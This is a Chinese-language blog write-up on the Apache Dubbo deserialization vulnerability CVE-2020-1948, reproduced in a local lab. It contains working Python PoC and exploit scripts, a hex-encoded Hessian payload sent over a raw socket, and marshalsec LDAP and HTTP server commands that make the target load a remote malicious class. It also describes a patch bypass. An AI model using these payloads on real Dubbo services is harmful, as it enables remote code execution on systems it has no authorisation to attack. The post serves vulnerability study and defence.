







Title: CVE-2020-1948 Dubbo 反序列化漏洞
Date: 2020-09-10 10:20
Category: 漏洞实践
Tags: Java,反序列化,漏洞,dubbo
Slug: 
Authors: bit4woo
Summary: 

# CVE-2020-1948 Dubbo 反序列化漏洞

如有错误，敬请斧正！

## 简介

### 影响版本

- Dubbo 2.7.0 to 2.7.6

- Dubbo 2.6.0 to 2.6.7

- Dubbo all 2.5.x versions (not supported by official team any longer)

注意：准确地说是影响了2.7.7 、2.6.8版本的，因为修复方案被绕过了！

### 漏洞利用限制条件

- 在高版本JDK中默认TRUST_URL_CODE_BASE为False，且有校验，在jdk8u191以后ldap就不能成功了，低版本的JDK还是可以的。这一点和fastjson一致，他们都是通过com.sun.rowset.JdbcRowSetImpl包来实现JNDI注入的。
- 2个利用链都需要依赖com.rometools.rome这个包，该包是Atom/RSS订阅相关的，服务端极少使用，即使漏洞存在也难以被利用。

## 漏洞复现


### 环境搭建


环境搭建参考链接：https://github.com/apache/dubbo#getting-started


```
# git clone https://github.com/apache/dubbo-samples.git
# cd dubbo-samples/java/dubbo-samples-api
```


eclipse 打开项目，修改pom.xml


1、将dubbo的version改为 2.7.6


2、添加依赖，这是反序列化利用所需gadget所在包。这个包的作用是Atom/RSS订阅相关的，服务端很少用到。


```
        <dependency>
                 <groupId>com.rometools</groupId>
                 <artifactId>rome</artifactId>
                 <version>1.7.0</version>
         </dependency>
```


**当然启动还需要依赖zookeeper**，下载完zookeeper后将conf目录下的zoo_sample.cfg文件改成zoo.cfg并修改其中的两个参数

```
dataDir=E:/zookeeper/data
dataLogDir=E:/zookeeper/log
admin.serverPort=8899 //新增这个配置，避免zookeeper的管理页面绑定到8080端口
```


data和log目录需要自己在zookeeper目录下创建，运行bin\zkServer.cmd文件。


然后运行`/dubbo-samples-api/src/main/java/org/apache/dubbo/samples/provider/Application.java` 即启动服务提供者。dubbo服务将绑定在20880端口，本地环境是`dubbo://192.168.1.100:20880` 。


dubbo服务的端口有明显的banner，很容易识别。



### 漏洞检测PoC


运行PoC脚本，成功收到DNSlog，漏洞检测可以实现了。


```
# -*- coding: utf-8 -*-
# pip3 install dubbo-py
from dubbo.codec.hessian2 import Decoder,new_object
from dubbo.client import DubboClient
 
client = DubboClient('127.0.0.1', 20880)
 
JdbcRowSetImpl=new_object(
    'com.sun.rowset.JdbcRowSetImpl',
    dataSource="ldap://adubbo2020.bit.0y0.link/",
    strMatchColumns=["foo"]
    )
JdbcRowSetImplClass=new_object(
    'java.lang.Class',
    name="com.sun.rowset.JdbcRowSetImpl",
    )
toStringBean=new_object(
    'com.rometools.rome.feed.impl.ToStringBean',
    beanClass=JdbcRowSetImplClass,
    obj=JdbcRowSetImpl
    )
 
resp = client.send_request_and_return_response(
    service_name='cn.rui0',
    method_name='$invoke',
    args=[toStringBean])
print(resp)
```




### 检测中的问题


在测试环境中进行批量检测，有2种明显的情况：


#### 情况一：服务端报错，漏洞不存在

遇到错误，信息如下 `error: Fail to decode request due to: RpcInvocation [methodName=$invoke, parameterTypes=null, arguments=null, attachments={path=cn.rui0, input=305, dubbo=2.5.3, version=1.0}]`，


排查思路，登录内网服务器查看源码包，进行确认原因是包的版本比较高，不存在漏洞。





#### 情况二：漏洞存在，缺少依赖包


发现一个服务器漏洞存在，但是缺少依赖包。存在漏洞的jar名称是dubbo-sf.2.0.2.jar 是一个较低版本的dubbo自行打包的（存在漏洞的类`dubbo-sf.2.0.2.jar!\com\alibaba\dubbo\rpc\protocol\dubbo\DecodeableRpcInvocation.class`  包名称还是“com.alibaba.dubbo”, 表明是贡献给apache之前的版本。2.7.6版本的漏洞代码位置`dubbo-2.7.6.jar!\org\apache\dubbo\rpc\protocol\dubbo\DecodeableRpcInvocation.class` ）


如下错误输出也表明漏洞存在，但是缺少依赖包。com.rometools.rome这个包的作用是Atom/RSS订阅相关的，服务端很少用到。


```
id: 1, status: 40, data: None, error: Fail to decode request due to: java.io.IOException: Read invocation data failed.
java.lang.ClassNotFoundException: com.rometools.rome.feed.impl.ToStringBean
        at java.net.URLClassLoader.findClass(URLClassLoader.java:381)
        at java.lang.ClassLoader.loadClass(ClassLoader.java:424)
        at sun.misc.Launcher$AppClassLoader.loadClass(Launcher.java:338)
        at java.lang.ClassLoader.loadClass(ClassLoader.java:357)
        at java.lang.Class.forName0(Native Method)
        at java.lang.Class.forName(Class.java:348)
        at com.alibaba.dubbo.common.utils.ReflectUtils.desc2class(ReflectUtils.java:736)
        at com.alibaba.dubbo.common.utils.ReflectUtils.desc2classArray(ReflectUtils.java:771)
        at com.alibaba.dubbo.common.utils.ReflectUtils.desc2classArray(ReflectUtils.java:751)
        at com.alibaba.dubbo.rpc.protocol.dubbo.DecodeableRpcInvocation.decode(DecodeableRpcInvocation.java:108)
        at com.alibaba.dubbo.rpc.protocol.dubbo.DecodeableRpcInvocation.decode(DecodeableRpcInvocation.java:74)
        at com.alibaba.dubbo.rpc.protocol.dubbo.DubboCodec.decodeBody(DubboCodec.java:132)
        at com.alibaba.dubbo.remoting.exchange.codec.ExchangeCodec.decode(ExchangeCodec.java:134)
        at com.alibaba.dubbo.remoting.exchange.codec.ExchangeCodec.decode(ExchangeCodec.java:95)
        at com.alibaba.dubbo.rpc.protocol.dubbo.DubboCountCodec.decode(DubboCountCodec.java:46)
        at com.alibaba.dubbo.remoting.transport.netty.NettyCodecAdapter$InternalDecoder.messageReceived(NettyCodecAdapter.java:134)
        at org.jboss.netty.channel.SimpleChannelUpstreamHandler.handleUpstream(SimpleChannelUpstreamHandler.java:70)
        at org.jboss.netty.channel.DefaultChannelPipeline.sendUpstream(DefaultChannelPipeline.java:564)
        at org.jboss.netty.channel.DefaultChannelPipeline.sendUpstream(DefaultChannelPipeline.java:559)
        at org.jboss.netty.channel.Channels.fireMessageReceived(Channels.java:268)
        at org.jboss.netty.channel.Channels.fireMessageReceived(Channels.java:255)
        at org.jboss.netty.channel.socket.nio.NioWorker.read(NioWorker.java:88)
        at org.jboss.netty.channel.socket.nio.AbstractNioWorker.process(AbstractNioWorker.java:108)
        at org.jboss.netty.channel.socket.nio.AbstractNioSelector.run(AbstractNioSelector.java:337)
        at org.jboss.netty.channel.socket.nio.AbstractNioWorker.run(AbstractNioWorker.java:89)
        at org.jboss.netty.channel.socket.nio.NioWorker.run(NioWorker.java:178)
        at org.jboss.netty.util.ThreadRenamingRunnable.run(ThreadRenamingRunnable.java:108)
        at org.jboss.netty.util.internal.DeadLockProofWorker$1.run(DeadLockProofWorker.java:42)
        at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
        at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
        at java.lang.Thread.run(Thread.java:748)

java.io.IOException: Read invocation data failed.
java.lang.ClassNotFoundException: com.rometools.rome.feed.impl.ToStringBean
        at java.net.URLClassLoader.findClass(URLClassLoader.java:381)
        at java.lang.ClassLoader.loadClass(ClassLoader.java:424)
        at sun.misc.Launcher$AppClassLoader.loadClass(Launcher.java:338)
        at java.lang.ClassLoader.loadClass(ClassLoader.java:357)
        at java.lang.Class.forName0(Native Method)
        at java.lang.Class.forName(Class.java:348)
        at com.alibaba.dubbo.common.utils.ReflectUtils.desc2class(ReflectUtils.java:736)
        at com.alibaba.dubbo.common.utils.ReflectUtils.desc2classArray(ReflectUtils.java:771)
        at com.alibaba.dubbo.common.utils.ReflectUtils.desc2classArray(ReflectUtils.java:751)
        at com.alibaba.dubbo.rpc.protocol.dubbo.DecodeableRpcInvocation.decode(DecodeableRpcInvocation.java:108)
        at com.alibaba.dubbo.rpc.protocol.dubbo.DecodeableRpcInvocation.decode(DecodeableRpcInvocation.java:74)
        at com.alibaba.dubbo.rpc.protocol.dubbo.DubboCodec.decodeBody(DubboCodec.java:132)
        at com.alibaba.dubbo.remoting.exchange.codec.ExchangeCodec.decode(ExchangeCodec.java:134)
        at com.alibaba.dubbo.remoting.exchange.codec.ExchangeCodec.decode(ExchangeCodec.java:95)
        at com.alibaba.dubbo.rpc.protocol.dubbo.DubboCountCodec.decode(DubboCountCodec.java:46)
        at com.alibaba.dubbo.remoting.transport.netty.NettyCodecAdapter$InternalDecoder.messageReceived(NettyCodecAdapter.java:134)
        at org.jboss.netty.channel.SimpleChannelUpstreamHandler.handleUpstream(SimpleChannelUpstreamHandler.java:70)
        at org.jboss.netty.channel.DefaultChannelPipeline.sendUpstream(DefaultChannelPipeline.java:564)
        at org.jboss.netty.channel.DefaultChannelPipeline.sendUpstream(DefaultChannelPipeline.java:559)
        at org.jboss.netty.channel.Channels.fireMessageReceived(Channels.java:268)
        at org.jboss.netty.channel.Channels.fireMessageReceived(Channels.java:255)
        at org.jboss.netty.channel.socket.nio.NioWorker.read(NioWorker.java:88)
        at org.jboss.netty.channel.socket.nio.AbstractNioWorker.process(AbstractNioWorker.java:108)
        at org.jboss.netty.channel.socket.nio.AbstractNioSelector.run(AbstractNioSelector.java:337)
        at org.jboss.netty.channel.socket.nio.AbstractNioWorker.run(AbstractNioWorker.java:89)
        at org.jboss.netty.channel.socket.nio.NioWorker.run(NioWorker.java:178)
        at org.jboss.netty.util.ThreadRenamingRunnable.run(ThreadRenamingRunnable.java:108)
        at org.jboss.netty.util.internal.DeadLockProofWorker$1.run(DeadLockProofWorker.java:42)
        at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
        at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
        at java.lang.Thread.run(Thread.java:748)

        at com.alibaba.dubbo.rpc.protocol.dubbo.DecodeableRpcInvocation.decode(DecodeableRpcInvocation.java:144)
        at com.alibaba.dubbo.rpc.protocol.dubbo.DecodeableRpcInvocation.decode(DecodeableRpcInvocation.java:74)
        at com.alibaba.dubbo.rpc.protocol.dubbo.DubboCodec.decodeBody(DubboCodec.java:132)
        at com.alibaba.dubbo.remoting.exchange.codec.ExchangeCodec.decode(ExchangeCodec.java:134)
        at com.alibaba.dubbo.remoting.exchange.codec.ExchangeCodec.decode(ExchangeCodec.java:95)
        at com.alibaba.dubbo.rpc.protocol.dubbo.DubboCountCodec.decode(DubboCountCodec.java:46)
        at com.alibaba.dubbo.remoting.transport.netty.NettyCodecAdapter$InternalDecoder.messageReceived(NettyCodecAdapter.java:134)
        at org.jboss.netty.channel.SimpleChannelUpstreamHandler.handleUpstream(SimpleChannelUpstreamHandler.java:70)
        at org.jboss.netty.channel.DefaultChannelPipeline.sendUpstream(DefaultChannelPipeline.java:564)
        at org.jboss.netty.channel.DefaultChannelPipeline.sendUpstream(DefaultChannelPipeline.java:559)
        at org.jboss.netty.channel.Channels.fireMessageReceived(Channels.java:268)
        at org.jboss.netty.channel.Channels.fireMessageReceived(Channels.java:255)
        at org.jboss.netty.channel.socket.nio.NioWorker.read(NioWorker.java:88)
        at org.jboss.netty.channel.socket.nio.AbstractNioWorker.process(AbstractNioWorker.java:108)
        at org.jboss.netty.channel.socket.nio.AbstractNioSelector.run(AbstractNioSelector.java:337)
        at org.jboss.netty.channel.socket.nio.AbstractNioWorker.run(AbstractNioWorker.java:89)
        at org.jboss.netty.channel.socket.nio.NioWorker.run(NioWorker.java:178)
        at org.jboss.netty.util.ThreadRenamingRunnable.run(ThreadRenamingRunnable.java:108)
        at org.jboss.netty.util.internal.DeadLockProofWorker$1.run(DeadLockProofWorker.java:42)
        at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
        at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
        at java.lang.Thread.run(Thread.java:748)
```

### 漏洞利用Exp


运行如下命令开启LDAP监听，监听端口为8088


```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://10.118.72.8:8000/#calc 8088
```


运行如下命令开启http监听，监听端口为8000。在web的目录下放置编译后的[恶意类](http://www.code2sec.com/javafan-xu-lie-hua-lou-dong-xue-xi-shi-jian-liu-lei-de-jia-zai-ji-zhi-he-e-yi-lei-gou-zao.html)。


```
python -m SimpleHTTPServer
```


运行如下exp，成功触发命令执行，弹出计算器。


```
# -*- coding: utf-8 -*-
# pip3 install dubbo-py
from dubbo.codec.hessian2 import Decoder,new_object
from dubbo.client import DubboClient
 
client = DubboClient('127.0.0.1', 20880)
 
JdbcRowSetImpl=new_object(
    'com.sun.rowset.JdbcRowSetImpl',
    dataSource="ldap://127.0.0.1:8088/calc",
    strMatchColumns=["foo"]
    )
JdbcRowSetImplClass=new_object(
    'java.lang.Class',
    name="com.sun.rowset.JdbcRowSetImpl",
    )
toStringBean=new_object(
    'com.rometools.rome.feed.impl.ToStringBean',
    beanClass=JdbcRowSetImplClass,
    obj=JdbcRowSetImpl
    )
 
resp = client.send_request_and_return_response(
    service_name='cn.rui0',
    method_name='$invoke',#这个地方是绕过2.7.7版本的修复方法的关键
    args=[toStringBean])
print(resp)
```





## 漏洞利用链分析

根据漏洞检查过程中服务端的报错信息能大致确定漏洞代码位置（见 【情况二：漏洞存在，缺少依赖包】） ，结合以前对fastjson漏洞的学习，知道PoC最终的触发会在com.sun.rowset.JdbcRowSetImpl#connect函数中。我们可以直接在这里下断点，然后运行PoC，以获取到整个调用栈。



#### 调用链一（hessian的反序列化链）：

根据最初的漏洞披露文章 https://www.mail-archive.com/dev@dubbo.apache.org/msg06544.html 中的payload，可以获取到如下调用链一。

```
# -*- coding: utf-8 -*-
import socket
import time
import re

def sendEvilObjData(sock):
    payload="DABBC20000000000000000000000037805322E302E3230366F72672E6161616161612E61616161612E737072696E672E626F6F742E63656D6F2E636F6E73756D65722E4B656D6F5365727669636505312E302E300474657374124C6A6176612F6C616E672F4F626A6563743B48433027636F6D2E726F6D65746F6F6C732E726F6D652E666565642E696D706C2E457175616C734265616E92036F626A096265616E436C61737360433029636F6D2E726F6D65746F6F6C732E726F6D652E666565642E696D706C2E546F537472696E674265616E92036F626A096265616E436C61737361431D636F6D2E73756E2E726F777365742E4A646263526F77536574496D706CAC06706172616D73096C697374656E657273036D61700A6368617253747265616D0B617363696953747265616D0D756E69636F646553747265616D0C62696E61727953747265616D0F7374724D61746368436F6C756D6E730D694D61746368436F6C756D6E73057265734D4406726F77734D4402727302707304636F6E6E09666574636853697A650866657463684469720969736F6C6174696F6E1065736361706550726F63657373696E6708726561644F6E6C790B636F6E63757272656E63790C6D61784669656C6453697A65076D6178526F77730C717565727954696D656F75740B73686F7744656C657465640A726F77536574547970650A64617461536F757263650355524C07636F6D6D616E64624D136A6176612E7574696C2E486173687461626C655A4E4E4E4E4E4E56106A6176612E7574696C2E566563746F729A03666F6F4E4E4E4E4E4E4E4E4E56919A8F8F8F8F8F8F8F8F8F8F4E4E4E4E4E90CBE8925454CBF090909046CBEC1D6C6461703A2F2F3132372E302E302E313A383038372F4578706C6F69744E4E430F6A6176612E6C616E672E436C61737391046E616D65631D636F6D2E73756E2E726F777365742E4A646263526F77536574496D706C633029636F6D2E726F6D65746F6F6C732E726F6D652E666565642E696D706C2E546F537472696E674265616E5191519151915A48047061746830366F72672E6262626368652E61616161612E737072696E672E626F6F742E64656D6F2E636F6E73756D65722E4B656D6F5365727669636509696E7465726661636530366F72672E6170616368652E61616161612E737072696E672E626F6F742E64656D6F2E636F6E73756D65722E61656D6F536572766963650776657273696F6E05312E302E305A"
    sock.send(payload.decode('hex'))
def run(dip,dport):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_addr = (dip, dport)
    sock.connect(server_addr)
    sendEvilObjData(sock)

run("127.0.0.1",20880)
```

可以看出调用链利用了hessian的反序列化过程，更多解释查看备注。

```
connect():624, JdbcRowSetImpl (com.sun.rowset)
getDatabaseMetaData():4004, JdbcRowSetImpl (com.sun.rowset)
invoke0(Method, Object, Object[]):-1, NativeMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):62, NativeMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):43, DelegatingMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):498, Method (java.lang.reflect)
toString(String):158, ToStringBean (com.rometools.rome.feed.impl)
toString():129, ToStringBean (com.rometools.rome.feed.impl)
beanHashCode():198, EqualsBean (com.rometools.rome.feed.impl)
hashCode():180, EqualsBean (com.rometools.rome.feed.impl)
hash(Object):338, HashMap (java.util)
put(Object, Object):611, HashMap (java.util)
//接下来进入HashMap的反序列化过程：由于需要获取hash值，先要将对象转换为String，从而循环调用对象中属性的toString()函数，最终调用了JdbcRowSetImpl的toString()
    
    
    
//利用了hessian的反序列化过程，接下来进入HashMap的反序列化过程。   
doReadMap(AbstractHessianInput, Map, Class, Class):145, MapDeserializer (com.alibaba.com.caucho.hessian.io)
readMap(AbstractHessianInput, Class, Class):126, MapDeserializer (com.alibaba.com.caucho.hessian.io)
readObject(List):2703, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readObject():2278, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readObject(Class, Class[]):2080, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readObject(Class):2074, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readObject(Class):92, Hessian2ObjectInput (org.apache.dubbo.common.serialize.hessian2)
    
    
//RpcInvocation对象的作用是数据传递，告诉服务端调用哪个函数，参数是多少，参数的类型是什么。
decode(Channel, InputStream):139, DecodeableRpcInvocation (org.apache.dubbo.rpc.protocol.dubbo)
decode():79, DecodeableRpcInvocation (org.apache.dubbo.rpc.protocol.dubbo)
decode(Object):57, DecodeHandler (org.apache.dubbo.remoting.transport)
received(Channel, Object):44, DecodeHandler (org.apache.dubbo.remoting.transport)
run():57, ChannelEventRunnable (org.apache.dubbo.remoting.transport.dispatcher)
runWorker(ThreadPoolExecutor$Worker):1142, ThreadPoolExecutor (java.util.concurrent)
run():617, ThreadPoolExecutor$Worker (java.util.concurrent)
run():745, Thread (java.lang)
```


值得注意的是，这里的上层调用函数是getDatabaseMetaData()函数，而fastjson中的上层调用是setAutoCommit()函数


#### 调用链二（直接利用toString的过程）:


漏洞发现作者在调用链一的基础上进行了优化，巧妙利用了错误输出要调用对象的toString()函数的特性，跳过了hessian环节。


com\rometools\rome\feed\impl\ToStringBean.java中 toString函数的基本逻辑是：遍历对象的所有属性，调用属性对应的getter函数获取到属性的值，然后转换成字符串打印出来。

```
connect():624, JdbcRowSetImpl (com.sun.rowset)//发起DNS请求的地方
getDatabaseMetaData():4004, JdbcRowSetImpl (com.sun.rowset)
invoke0(Method, Object, Object[]):-1, NativeMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):62, NativeMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):43, DelegatingMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):498, Method (java.lang.reflect)
    
toString(String):158, ToStringBean (com.rometools.rome.feed.impl)//toString函数的基本逻辑是：遍历对象的所有属性，调用属性对应的getter函数获取到属性的值，然后转换成字符串打印出来。
toString():129, ToStringBean (com.rometools.rome.feed.impl) //把当前对象转换为String。完全符合中间链接类的特征，被他人调用，然后逻辑中有invoke()可跳转其他类的其他函数。
   
    
valueOf(Object):2994, String (java.lang)
toString(Object[]):4571, Arrays (java.util)
toString():429, RpcInvocation (org.apache.dubbo.rpc)//为了将RpcInvocation对象转为字符串，就需要将其内部属性都转换为字符串，就去遍历对象的属性，调用其toString()函数
valueOf(Object):2994, String (java.lang)
append(Object):131, StringBuilder (java.lang)//这几个函数调用都可以不看，反正就是为了获取到字符串。


//这里是关键步骤：为了输出错误信息，需要将RpcInvocation对象转为字符串。这个步骤导致了不需要hessian的反序列化过程。
getInvoker(Channel, Invocation):265, DubboProtocol (org.apache.dubbo.rpc.protocol.dubbo) //这个函数进入到了错误处理逻辑，错误输出是将各个对象转换成字符串然后输出。
reply(ExchangeChannel, Object):120, DubboProtocol$1 (org.apache.dubbo.rpc.protocol.dubbo)// 收到的对象是一个RpcInvocation对象
handleRequest(ExchangeChannel, Request):100, HeaderExchangeHandler (org.apache.dubbo.remoting.exchange.support.header)
received(Channel, Object):175, HeaderExchangeHandler (org.apache.dubbo.remoting.exchange.support.header)
received(Channel, Object):51, DecodeHandler (org.apache.dubbo.remoting.transport)//1、dubbo收到客户端的请求，开始decode处理
run():57, ChannelEventRunnable (org.apache.dubbo.remoting.transport.dispatcher)
runWorker(ThreadPoolExecutor$Worker):1142, ThreadPoolExecutor (java.util.concurrent)
run():617, ThreadPoolExecutor$Worker (java.util.concurrent)
run():745, Thread (java.lang)
```

从头到尾梳理一下大致的步骤：


- 服务端收到请求，然后进行处理。
- 在处理的过程中发生错误，进入错误处理逻辑，这个逻辑将所有对象都转换成字符串然后输出。
- 收到的信息是一个RpcInvocation对象，在将它转换为字符串的过程中，需要将它的所有属性转换为字符串。
- 而它的属性有一个com.rometools.rome.feed.impl对象，它的toString是经过重写的，而且有invoke逻辑；toString函数的基本逻辑是：遍历对象的所有属性，调用属性对应的getter函数获取到属性的值。
- 在遍历的过程中，com.sun.rowset.JdbcRowSetImpl#getDatabaseMetaData函数被调用，而其中有connet发起JNDI请求。


## 修复方案和绕过


```
                if (pts == DubboCodec.EMPTY_CLASS_ARRAY) {
                    if (!RpcUtils.isGenericCall(path, getMethodName()) && !RpcUtils.isEcho(path, getMethodName())) {
                        throw new IllegalArgumentException("Service not found:" + path + ", " + getMethodName());
                    }
                    pts = ReflectUtils.desc2classArray(desc);
                }
```

准确地说是影响了2.7.7 版本的，因为修复方案被绕过了！

```
resp = client.send_request_and_return_response(
    service_name='cn.rui0',
    method_name='$invoke',#这个地方是绕过2.7.7版本的修复方法的关键
    args=[toStringBean])
```

### 

## 思考扩展


1、如果要为这个漏洞找同类的其他gadget，思路是怎么样的？


依赖的gadget应该具有的特征：重写了toString 函数，而且toString函数中有invoke等跳转其他来的函数。


2、如何批量遍历依赖包中的类，来找到满足条件的类？有自动化工具吗？


gadgetinspector、codeQL

## 参考链接


基于hessian反序列化的利用链：

https://paper.seebug.org/1131/

https://www.anquanke.com/post/id/209251

https://www.anquanke.com/post/id/197658#h3-5

https://www.mail-archive.com/dev@dubbo.apache.org/msg06544.html


序列化方式总结：

https://juejin.im/post/5ef2be63f265da02b643218a

https://www.anquanke.com/post/id/209251


银河安全实验室的分析：

 https://www.anquanke.com/post/id/209973


补丁绕过分析：

https://www.freebuf.com/articles/web/242354.html

https://paper.seebug.org/1266/


利用链总结、java下PoC构造：

https://www.anquanke.com/post/id/209251

https://github.com/ctlyz123/CVE-2020-1948


